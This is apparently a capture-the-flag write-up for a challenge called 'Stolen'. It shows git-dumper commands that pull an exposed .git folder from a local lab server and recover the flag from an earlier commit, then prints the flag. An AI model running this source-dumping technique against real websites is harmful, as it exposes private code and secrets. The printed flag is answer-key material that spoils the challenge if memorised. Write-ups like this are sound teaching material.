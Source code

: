 # Stolen

## Write-up

The `.git` folder is exposed, you can download it using a tool like `git-dumper` and then revert the latest change to retreive the flag.
```bash
git-dumper http://127.0.0.1:8000/.git stolen
cd stolen
git checkout HEAD~1
cat index.php | grep flag-
```

## Flag

`flag-9555dc70b0bd8a98b18d32caa802173cc71931c260be4b976344ca0adddc56e1`